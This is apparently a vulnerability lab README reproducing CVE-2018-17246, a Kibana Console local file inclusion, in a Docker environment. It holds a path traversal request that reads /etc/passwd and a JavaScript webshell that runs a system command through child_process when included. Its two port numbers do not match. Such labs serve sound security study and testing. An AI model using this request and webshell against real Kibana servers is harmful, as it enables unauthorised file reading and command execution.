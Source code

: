 # Kibana Local File Inclusion (CVE-2018-17246)

[中文版本（Chinese Version）](README.zh-cn.md)
[PT-BR(Portuguese version)](./README.pt-br.md)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions before 6.4.3 and 5.6.13 contain an arbitrary file inclusion flaw in the Console plugin. An attacker with access to the Kibana Console API could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

References:

- https://nvd.nist.gov/vuln/detail/CVE-2018-17246
- https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/

## Setup

Start the Kibana 5.6.12 and Elasticsearch 5.6.16:

```
docker-compose up -d
```

After started the environment, the Kibana is listening on `http://your-ip:5106`.

## Vulnerability Reproduce

Send the following request to trigger a basic path traversal:

```
http://your-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

Though there is nothing response except a error message with the 500 status code, you can see the exception in the `docker-compose logs`:

![](1.png)

File `/etc/passwd` is imported successfully.

To exploit this vulnerability, you need to upload a JavaScript webshell to the machine where the Kibana is running, then include it.

```js
// docker-compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
export default {
  asJson: function () {
    return require("child_process").execSync("id").toString();
  },
};
```

![](2.png)
